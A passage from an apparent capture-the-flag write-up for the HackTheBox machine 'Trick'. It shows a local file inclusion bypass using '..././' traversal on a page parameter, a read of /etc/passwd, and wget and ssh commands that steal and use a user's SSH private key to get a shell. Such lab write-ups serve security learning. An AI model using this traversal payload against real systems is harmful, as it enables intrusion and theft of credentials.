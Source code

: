 ```bash
 :: Matcher          : Response status: 200,401
 :: Filter           : Response size: 5480
________________________________________________

marketing               [Status: 200, Size: 9660, Words: 3007, Lines: 179, Duration: 100ms]

```


# User as michael

## LFI

![preprod-marketing front page*]({{ page.img }}_marketing.png)


While looking around I make note of the url using the page parameter to pass a file location **http://preprod-marketing.trick.htb/index.php?page=services.html**. I fuzz with some directory traversal and find that there is some filtering but it passes through only once which means the classic `..././` will work.

![preprod-marketing lfi etc passwd]({{ page.img }}_etc_passwd.png)


Now that we have every user on the machine we can check for ssh keys. The endpoint here ends up being **http://preprod-marketing.trick.htb/index.php?page=..././..././..././..././..././home/michael/.ssh/id_rsa** and there is an ssh key there which gives us a the user flag.

```bash
wget http://preprod-marketing.trick.htb/index.php?page=..././..././..././..././..././home/michael/.ssh/id_rsa -O id_rsa

chmod 400 id_rsa

ssh michael@trick.htb -i id_rsa 

Linux trick 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
michael@trick:~$ cat user.txt 
65ec0547564700------------------
```


# root
